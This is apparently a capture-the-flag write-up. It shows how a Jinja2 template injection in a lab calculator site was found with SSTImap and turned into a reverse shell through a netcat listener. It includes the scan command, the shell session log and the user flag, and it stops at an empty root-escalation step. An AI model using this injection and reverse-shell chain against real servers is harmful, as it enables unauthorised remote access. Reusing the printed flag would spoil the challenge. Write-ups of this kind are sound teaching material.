


--- 
### Challenge propertie(s) :
- ##### Difficulty : easy
- ##### Techniques : scan,  reverse, privilege escalation, website analysis
- ##### tools : nmap, netcat, python, pip3

### Challenge steps : 

#### Part 1 : user.txt

1. after several nmap scans, adding or removing flag, I found the open port :

2. I navigated to the website and analyse it, and directly deducted that it was an calculator, putting a calculation and shows the response. 
   In the code source website, there is a sentence that gave me a clue : 
	` I don't really trust Tsukasa, so I left a backdoor here using the power of Python! `

3. I tried to find a tool that scan vulnerabilty in injection, so I tried SSTImap, with a first basic command : 
```
	python3 sstimap.py -u "http://10.10.0.5:5739/?calc=1"
	
	....
	
  Query parameter: calc
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: time-based blind
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: ok (blind)
    File read: no
    Code evaluation: ok, python code (blind)
```

The relevant thing is that line : `Code evaluation: ok, python code (blind)` that means I can execute Python code in the server side , probably a reverse shell. 

4. So I launch a new SSTImap with the flag `--eval-shell` , so I can try to do a reverse shell, in executing Python code in the server. 
5. I search about executing command in Python, so I found website such as this : https://docs.python.org/3/library/os.html#os.system
	But to execute a reverse bash shell that I can find on https://www.revshells.com/ . I need to do a one-liner, because I can't create a file . So this forum conversations helped me https://stackoverflow.com/questions/30657275/how-to-import-and-use-a-module-with-one-line. 
	Because I didn't know how to import a module and use it (for me os module) in one line. 

	Before executing the reverse shell, I have to use netcat to listen and it will be here that I will get the reversed shell -> `nc -lvnp 4444`
	So I combine all I explained and gave to me the shell : 
	
6. Now I have to search the user.txt.
```
	Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.8.0.1.
Ncat: Connection from 10.8.0.1:48800.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
senku@earth:/$ ls
ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
senku@earth:/$ cd home/senku/     
cd home/senku/
senku@earth:~$ ls
ls
app
user.txt
senku@earth:~$ cat user.txt
cat user.txt
EPI{1_w1LL_s0lv3_p37R1F1C4710N}
```


#### Part 2 : root.txt

1. 